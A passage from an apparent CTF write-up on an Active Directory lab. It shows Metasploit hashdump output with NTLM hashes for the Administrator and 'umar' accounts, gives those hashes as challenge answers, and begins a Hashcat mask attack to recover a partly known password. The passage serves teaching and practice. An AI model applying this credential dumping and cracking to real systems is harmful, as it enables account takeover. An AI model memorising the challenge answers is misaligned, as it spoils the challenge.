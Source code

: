 ```
[*] 	Decrypting user keys...
[*] 	Dumping password hints...
[*] 	No users with password hints on this system
[*] 	Dumping password hashes...
[+] 	Administrator:500:aad3b435b51404eeaad3b435b51404ee:1df71c58e95017fb35169f71a06112f4:::
[+] 	umar:1002:aad3b435b51404eeaad3b435b51404ee:690202604d171a54bc7d7d06aa90df3f:::
[*] Post module execution completed
```

Now that I have the NTLM hash.

**Answer: Administrator:500:aad3b435b51404eeaad3b435b51404ee:1df71c58e95017fb35169f71a06112f4:::**

### Q4 - NTLM hash result for user "*mar"

![](/images/ctf-round-3-active-directory/18.png)

Grab the user `umar` NTLM hash from the smart hashdump output.

**Answer: umar:1002:aad3b435b51404eeaad3b435b51404ee:690202604d171a54bc7d7d06aa90df3f:::**

### Q5 - Plain text password for user Administrator

![](/images/ctf-round-3-active-directory/19.png)

I've given a hint `P@ssw0rd?a?a?a?a?a?a` which means I only have partial of the plaintext password. In this case, I did mask attack using `Hashcat`. This attack will guess the password via brute forcing.
